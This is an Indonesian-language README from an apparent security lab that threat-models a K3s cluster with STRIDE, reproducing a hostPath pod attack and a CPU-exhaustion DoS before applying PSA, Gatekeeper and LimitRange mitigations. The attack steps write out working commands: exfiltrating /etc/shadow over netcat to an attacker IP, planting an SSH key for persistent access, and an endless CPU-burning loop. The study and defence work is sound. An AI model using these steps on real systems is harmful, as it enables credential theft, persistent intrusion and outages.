# Analisis Threat Modeling STRIDE pada Infrastruktur Kubernetes

Repositori ini berisi hasil analisis dan simulasi keamanan pada cluster Kubernetes (K3s) menggunakan metodologi **STRIDE** (*Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege*). Penelitian ini berfokus pada dua skenario serangan utama—**HostPath Attack** dan **CPU Resource Exhaustion**—serta langkah-langkah mitigasinya.

---

## Arsitektur Target & Aset Kritis

### 1. Spesifikasi Cluster K3s
* **Control Plane**: Ubuntu Server (`ubuntu`, Ready, `v1.35.5+k3s1`)
* **Worker Node**: Kali Linux (`kali`, Ready, `v1.35.5+k3s1`)
* **Aplikasi Target**: OWASP Juice Shop (diakses via NodePort `http://100.96.138.59:31423`)

### 2. Aset yang Dilindungi
* File kredensial sistem host (`/etc/shadow`, `/etc/passwd`)
* Akses remote SSH (`~/.ssh/authorized_keys`)
* Sumber daya komputasi node (CPU & Memori)
* Layanan web OWASP Juice Shop
* Catatan aktivitas sistem (*System & Audit Logs*)

---

## Skenario 1: HostPath Attack
Ancaman: *Information Disclosure*, *Tampering*, dan *Elevation of Privilege*

Pada skenario ini, pod jahat (`skenariol`) dikonfigurasi di namespace `security-audit-lab` menggunakan volume `hostPath` yang mengarah langsung ke direktori sensitif host (`/etc`, `/var`, `/home`).

### Alur Serangan (Data Flow Diagram)

  

  <b>Penjelasan DFD:</b> Diagram Alur Data (DFD) menunjukkan alur di mana penyerang mendeploy pod jahat dengan mount direktori host, membaca file kredensial <code>/etc/shadow</code>, mengeksfiltrasi data via Netcat ke Kali Linux, menyisipkan public key SSH ke dalam <code>authorized_keys</code> milik user <code>ubuntu</code>, hingga memperoleh akses persisten langsung ke sistem host via SSH.

### Tahapan Akses & Eksfiltrasi Data

  

  

  <b>Penjelasan gambar diatas:</b> Pembuatan namespace <code>security-audit-lab</code> dan penyiapan manifes pod <code>skenariol</code> berbasis <code>alpine:latest</code> dengan mount point <code>hostPath</code> yang mengarahkan <code>/etc</code> ke <code>/mnt/host-etc</code>, <code>/var</code> ke <code>/mnt/host-var</code>, dan <code>/home</code> ke <code>/mnt/host-home</code>.

  

  <b>Penjelasan gambar diatas:</b> Penyerang mengeksekusi shell ke dalam pod menggunakan <code>kubectl exec -it skenariol -n security-audit-lab sh</code> dan mengakses isi file <code>/mnt/host-etc/shadow</code> untuk mengintip hash password akun sistem host.

  

  <b>Penjelasan gambar diatas:</b> Penyerang membuka listener jaringan dengan perintah <code>nc -tvnp 4444</code> pada mesin Kali Linux (<code>100.65.32.116</code>) untuk mendengarkan koneksi data masuk dari pod.

  

  <b>Penjelasan gambar diatas:</b> Dari dalam pod di Ubuntu Server, penyerang mengirimkan data sensitif menggunakan perintah <code>cat /mnt/host-etc/shadow | nc 100.65.32.116 4444</code>, sehingga hash password sistem host berhasil dieksfiltrasi ke mesin penyerang.

### Tahapan Injeksi Kunci SSH & Akses Persisten

  

  <b>Penjelasan gambar diatas:</b> Penyerang membuat sepasang SSH key baru (<code>exploit_key</code> & <code>exploit_key.pub</code>) menggunakan <code>ssh-keygen -t rsa -b 4096</code> di mesin Kali Linux serta mengecek IP Tailscale target (<code>100.96.138.59</code>).

  

  <b>Penjelasan gambar diatas:</b> Melalui shell pod, penyerang membuat direktori <code>/mnt/host-home/ubuntu/.ssh/</code> dan menginjeksikan isi public key (<code>exploit_key.pub</code>) ke file <code>authorized_keys</code> dengan hak akses <code>600</code>.

  

  <b>Penjelasan gambar diatas:</b> Penyerang berhasil melakukan login remote SSH langsung ke mesin host Ubuntu menggunakan <code>ssh -i ~/.ssh/exploit_key ubuntu@100.96.138.59</code> tanpa memerlukan password.

  

  <b>Penjelasan gambar diatas:</b> Administrator/Penyerang menghapus namespace <code>security-audit-lab</code> (<code>sudo kubectl delete ns security-audit-lab</code>) untuk mencoba menghentikan eksploitasi dan membersihkan Pod.

  

  <b>Penjelasan gambar diatas:</b> Meskipun pod dan namespace di Kubernetes telah dihapus seluruhnya, penyerang terbukti masih bisa login kembali via SSH ke host Ubuntu, membuktikan tercapainya akses persisten (<i>Elevation of Privilege & Persistence</i>).

---

## Skenario 2: CPU Resource Exhaustion Attack
Ancaman: *Denial of Service* (DoS) dan *Repudiation*

Skenario ini mensimulasikan pod jahat (`attacker-pod` / `cpu-killer`) di namespace `dos-lab` yang mengonsumsi seluruh daya komputasi CPU pada node karena tidak dibatasi oleh *resource limits*.

### Alur Serangan (Data Flow Diagram)

  

  <b>Penjelasan DFD:</b> DFD menggambarkan alur serangan DoS. Pod jahat mengeksekusi skrip pembakar CPU yang memicu lonjakan pemakaian CPU hingga 90%, berakibat pada pembengkakan waktu respon aplikasi OWASP Juice Shop, serta mengeksploitasi celah <i>Repudiation</i> akibat tidak adanya pencatatan audit log.

### Tahapan Serangan DoS

  

  <b>Penjelasan gambar diatas:</b> File <code>attacker-pod.yaml</code> berisi konfigurasi pod dengan perintah shell infinite loop (<code>for i in 1 2 3 4; do (while true; do yes > /dev/null; done) & done;</code>) tanpa menyertakan batasan <code>resources.limits</code>.

  

  <b>Penjelasan gambar diatas:</b> Eksekusi perintah <code>sudo kubectl apply -f cpu-burner.yaml</code> untuk mendeploy pod pembakar CPU ke namespace <code>dos-lab</code>.

  

  <b>Penjelasan gambar diatas:</b> Hasil perintah <code>kubectl top nodes</code> sebelum serangan menunjukkan konsumsi CPU pada node <code>ubuntu</code> dalam kondisi normal di kisaran 2% (<code>49m</code>).

  

  <b>Penjelasan gambar diatas:</b> Setelah pod berjalan, konsumsi CPU Control Plane (<code>ubuntu</code>) melonjak drastis hingga 90% (<code>1802m</code>).

  

  <b>Penjelasan gambar diatas:</b> Pengujian dengan <code>time curl -o /dev/null -s http://100.96.138.59:31423</code> menunjukkan bahwa website aplikasi OWASP Juice Shop mengalami degradasi berat dengan respon time membengkak hingga <b>139.28 detik</b>.

### Investigasi Repudiation (Ancaman Akuntabilitas)

  

  <b>Penjelasan gambar diatas:</b> Pemeriksaan <code>kubectl get pod attacker-pod -o yaml | grep serviceAccount</code> menunjukkan pod berjalan menggunakan <code>serviceAccount: default</code>, sehingga identitas spesifik pembuat tidak diketahui.

  

  <b>Penjelasan gambar diatas:</b> Perintah <code>kubectl get pod attacker-pod --show-labels</code> menampilkan <code>LABELS &lt;none&gt;</code>, membuktikan tidak adanya metadata pelacak seperti <code>created-by</code>.

  

  <b>Penjelasan gambar diatas:</b> Pemeriksaan log K3s via <code>sudo journalctl -u k3s | grep "attacker-pod"</code> tidak menghasilkan catatan pembuat <code>kubectl apply</code>, mengonfirmasi bahwa audit logging dalam kondisi non-aktif.

---

## Implementasi Mitigasi

### 1. Pod Security Admission (PSA)
PSA digunakan untuk menegakkan standar keamanan pod bawaan Kubernetes pada tingkat namespace.

  

  <b>Penjelasan gambar diatas:</b> Menerapkan label <code>pod-security.kubernetes.io/enforce=baseline</code> pada namespace target (<code>security-audit-lab-example</code>).

  

  <b>Penjelasan gambar diatas:</b> Menjalankan <code>kubectl get ns --show-labels</code> untuk memastikan namespace target telah memiliki label kebijakan penegakan <code>baseline</code>.

  

  <b>Penjelasan gambar diatas:</b> Saat pod <code>skenariol</code> yang menggunakan volume <code>hostPath</code> dideploy, PSA secara otomatis menolak (<i>Forbidden</i>) pembuatan pod karena melanggar aturan keamanan baseline.

### 2. Open Policy Agent (OPA) Gatekeeper
Gatekeeper memberikan kontrol *Policy as Code* berbasis bahasa Rego untuk memblokir penggunaan `hostPath` secara kustom.

  

  <b>Penjelasan gambar diatas:</b> Verifikasi keberhasilan instalasi OPA Gatekeeper di namespace <code>gatekeeper-system</code> dengan status pod <code>audit</code> dan <code>controller-manager</code> berjalan <code>Running</code>.

  

  <b>Penjelasan gambar diatas:</b> Pembuatan file <code>template-hostpath.yaml</code> yang berisi aturan logika Rego <code>K8sBanHostPath</code> untuk mendeteksi keberadaan <code>volume.hostPath</code>.

  

  <b>Penjelasan gambar diatas:</b> Menerapkan file <code>template-hostpath.yaml</code> menggunakan <code>kubectl apply -f template-hostpath.yaml</code> hingga objek <code>constrainttemplate</code> berhasil dibuat.

  

  <b>Penjelasan gambar diatas:</b> Pembuatan file <code>constraint-hostpath.yaml</code> jenis <code>K8sBanHostPath</code> bernama <code>no-hostpath-volumes</code> yang menyasar objek <code>Pod</code>, <code>Deployment</code>, <code>DaemonSet</code>, dan <code>StatefulSet</code> (mengecualikan <code>kube-system</code> dan <code>gatekeeper-system</code>).

  

  <b>Penjelasan gambar diatas:</b> Menerapkan aturan constraint ke cluster menggunakan <code>kubectl apply -f constraint-hostpath.yaml</code>.

  

  <b>Penjelasan gambar diatas:</b> Melakukan pengujian ulang dengan mengirimkan periferal manifes pod yang mengandung volume <code>hostPath</code> (<code>/etc</code>, <code>/var</code>, <code>/home</code>).

  

  <b>Penjelasan gambar diatas:</b> Admission Webhook Gatekeeper (<code>validation.gatekeeper.sh</code>) berhasil mencegat dan menolak pembuatan pod secara langsung karena melanggar aturan <code>no-hostpath-volumes</code>.

### 3. LimitRange (Mitigasi CPU Exhaustion)
LimitRange membatasi penggunaan konsumsi sumber daya CPU dan memori per kontainer secara otomatis pada suatu namespace.

  

  <b>Penjelasan gambar diatas:</b> Pembuatan konfigurasi <code>LimitRange</code> (<code>dos-lab-limit</code>) pada namespace <code>dos-lab</code> yang menetapkan default limit CPU <code>500m</code>, memori <code>256Mi</code>, serta batas maksimal CPU <code>1 Core</code>.

  

  <b>Penjelasan gambar diatas:</b> Tampilan <code>kubectl describe pod</code> yang mengonfirmasi adanya anotasi <code>kubernetes.io/Limit-ranger</code> di mana plugin LimitRange secara otomatis menyuntikkan batasan CPU <code>500m</code> dan Memory <code>256Mi</code> pada pod jahat.

  

  <b>Penjelasan gambar diatas:</b> Setelah mitigasi diterapkan, konsumsi CPU node Control Plane (<code>ubuntu</code>) berhasil diturunkan drastis dari 90% menjadi <b>16% (<code>338m</code>)</b>, sehingga ketersediaan cluster dan layanan web tetap terjaga.

---

## Matriks Risiko (STRIDE)

| Kategori STRIDE | Ancaman yang Ditemukan | Skenario | Tingkat Keparahan (*Severity*) |
|---|---|---|---|
